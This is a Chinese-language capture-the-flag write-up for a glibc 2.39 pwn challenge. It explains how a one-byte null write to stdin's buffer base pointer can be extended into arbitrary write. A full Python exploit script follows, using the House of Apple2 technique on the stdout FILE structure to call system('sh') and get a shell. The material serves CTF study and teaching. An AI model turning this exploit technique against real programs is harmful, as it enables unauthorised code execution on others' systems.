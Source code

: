 ## Nullullullllu

挺有意思的一道题，不过出得比较直白所以难度不大。

在 2.39 版本的 glibc 下，题目给出了 libc 基地址和一次任意地址写一字节 0 的能力，这对于利用而言远远不够，寻找能拓展为任意地址任意写的方法。

题目读入数据用的是循环 `getchar()`，调试发现读入的字节也是存在 `_IO_2_1_stdin_` 提供的缓冲区上的，取决于 file 结构体中的一系列指针，但是一次写一字节 0 显然是无法做到同时修改多个地址的，进一步调试发现在函数调用栈 `_IO_default_uflow+50 -> _IO_file_underflow+287 -> _IO_switch_to_get_mode+81` 中会逐一将 `_IO_buf_base` 的地址赋给所需的三个指针，因此题目的一字节写 0 应该用在修改 `_IO_2_1_stdin_.file._IO_buf_base` 末尾一字节上。

于是输入缓冲区被劫持到了 `_IO_write_base` 的位置，可以故技重施，但是这时候就能写入多字节任意数据了：

1. 这里最好的办法就是转而去劫持 `_IO_2_1_stdout_` 结构体打 House of Apple2；
2. 但是泄漏 environ + ROP 应该永远是可行的打法，只不过这里多次写入是个问题，可以从地址更低的 `_IO_2_1_stdin_` 开始写，保留任意地址写的能力的同时改后面的 `_IO_2_1_stdout_` 来泄漏，最后再改到栈上打 ROP，理论上可行不过挺麻烦的。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    ru(b"> ")
    sl(i2b(choice))


cmd(1)
ru(b"libc_base = ")
libc_base = set_current_libc_base_and_log(int(ru(b"\n", drop=True), 16))

cmd(2)
sl(hex(libc.sym._IO_2_1_stdin_ + 0x38).encode())


def cmd(data):
    ru(b"> ")
    sl(data)


cmd(
    flat(
        {
            0x00: [
                libc.sym._IO_2_1_stdout_ - 8,
                libc.sym._IO_2_1_stdout_ - 8,
                libc.sym._IO_2_1_stdout_ - 8 + 0x200,
                libc.sym._IO_2_1_stdout_ - 8,
                libc.sym._IO_2_1_stdout_ - 8 + 0x200,
                0,
                0,
                0,
                0,
            ],
        },
        word_size=64,
    )
)

A_addr = libc.sym._IO_2_1_stdout_
B_addr = libc.sym._IO_2_1_stdout_
apple2 = flat(
    {
        0x8: {
            0x00: b"  sh;",
            0x18: [0],
            0x30: [0],
            0x68: [libc.sym.system],
            0x88: [libc_base + 0x205700],  # lock
            0xA0: [A_addr],
            0xD8: [libc.sym._IO_wfile_jumps],
            0xE0: [B_addr],
        }
    },
    filler=b"\x00",
    word_size=64,
)
cmd(apple2)

ia()
```
